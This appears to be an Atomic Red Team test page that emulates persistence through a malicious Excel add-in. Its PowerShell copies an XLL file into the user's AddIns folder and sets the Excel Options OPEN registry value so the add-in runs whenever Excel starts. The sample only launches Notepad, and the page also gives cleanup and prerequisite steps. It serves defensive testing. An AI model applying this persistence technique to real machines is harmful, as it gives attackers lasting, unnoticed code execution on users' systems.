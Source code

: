 <br/>
<br/>

## Atomic Test #2 - Persistent Code Execution Via Excel Add-in File (XLL)
Creates an Excel Add-in file (XLL) and sets a registry key to make it run automatically when Excel is started
The sample XLL provided launches the notepad as a proof-of-concept for persistent execution from Office.

**Supported Platforms:** Windows


**auto_generated_guid:** 9c307886-9fef-41d5-b344-073a0f5b2f5f






#### Attack Commands: Run with `powershell`! 


```powershell
$excelApp = New-Object -COMObject "Excel.Application"
if(-not $excelApp.path.contains("Program Files (x86)")){
    Write-Host "64-bit Office"
    Copy "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll" "$env:APPDATA\Microsoft\AddIns\notepad.xll"
}
else{
  Write-Host "32-bit Office"
  Copy "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll" "$env:APPDATA\Microsoft\AddIns\notepad.xll"
}
$ver = $excelApp.version
$ExcelRegPath="HKCU:\Software\Microsoft\Office\$Ver\Excel\Options"
Remove-Item $ExcelRegPath -ErrorAction Ignore
New-Item -type Directory $ExcelRegPath | Out-Null
New-ItemProperty $ExcelRegPath OPEN -value "/R notepad.xll" -propertyType string | Out-Null
$excelApp.Quit()
Start-Process "Excel"
```

#### Cleanup Commands:
```powershell
$ver = (New-Object -COMObject "Excel.Application").version
Remove-Item "HKCU:\Software\Microsoft\Office\$Ver\Excel\Options" -ErrorAction Ignore
Stop-Process -Name "notepad","Excel" -ErrorAction Ignore
Start-Sleep 3
Remove-Item "$env:APPDATA\Microsoft\AddIns\notepad.xll" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Excel must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```